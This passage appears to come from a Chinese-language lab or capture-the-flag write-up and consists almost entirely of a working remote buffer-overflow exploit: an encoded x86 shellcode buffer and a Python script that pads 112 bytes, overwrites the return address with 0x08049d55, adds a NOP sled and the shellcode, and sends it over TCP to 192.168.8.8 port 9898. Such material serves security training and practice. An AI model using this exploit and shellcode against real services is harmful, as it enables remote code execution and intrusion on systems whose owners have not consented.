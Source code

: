 得出的Payload：

```bash
buf =  b""
buf += b"\xbb\xae\xef\x70\xa4\xda\xd0\xd9\x74\x24\xf4\x5a"
buf += b"\x33\xc9\xb1\x12\x83\xea\xfc\x31\x5a\x0e\x03\xf4"
buf += b"\xe1\x92\x51\x39\x25\xa5\x79\x6a\x9a\x19\x14\x8e"
buf += b"\x95\x7f\x58\xe8\x68\xff\x0a\xad\xc2\x3f\xe0\xcd"
buf += b"\x6a\x39\x03\xa5\xac\x11\xfb\x3d\x45\x60\xfc\x27"
buf += b"\x41\xed\x1d\xe7\x0f\xbe\x8c\x54\x63\x3d\xa6\xbb"
buf += b"\x4e\xc2\xea\x53\x3f\xec\x79\xcb\xd7\xdd\x52\x69"
buf += b"\x41\xab\x4e\x3f\xc2\x22\x71\x0f\xef\xf9\xf2"
```

构造exp脚本

```python
# exp.py
import struct, socket,sys

buf =  b""
buf += b"\xbb\xae\xef\x70\xa4\xda\xd0\xd9\x74\x24\xf4\x5a"
buf += b"\x33\xc9\xb1\x12\x83\xea\xfc\x31\x5a\x0e\x03\xf4"
buf += b"\xe1\x92\x51\x39\x25\xa5\x79\x6a\x9a\x19\x14\x8e"
buf += b"\x95\x7f\x58\xe8\x68\xff\x0a\xad\xc2\x3f\xe0\xcd"
buf += b"\x6a\x39\x03\xa5\xac\x11\xfb\x3d\x45\x60\xfc\x27"
buf += b"\x41\xed\x1d\xe7\x0f\xbe\x8c\x54\x63\x3d\xa6\xbb"
buf += b"\x4e\xc2\xea\x53\x3f\xec\x79\xcb\xd7\xdd\x52\x69"
buf += b"\x41\xab\x4e\x3f\xc2\x22\x71\x0f\xef\xf9\xf2"

payload = b'A'*112 + b'\x55\x9d\x04\x08' + b'\x90'*32  + buf
#payload = 112 * b'A' + struct.pack('I',0x08049d55) + 32 * b'\x90' + buf
try:

    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(('192.168.8.8', 9898))
    s.send((payload))
    s.close()
except:
    print("Wrong!")
    sys.exit()
   
```

![image-20230913154632899](./imgs/image-20230913154632899.png)
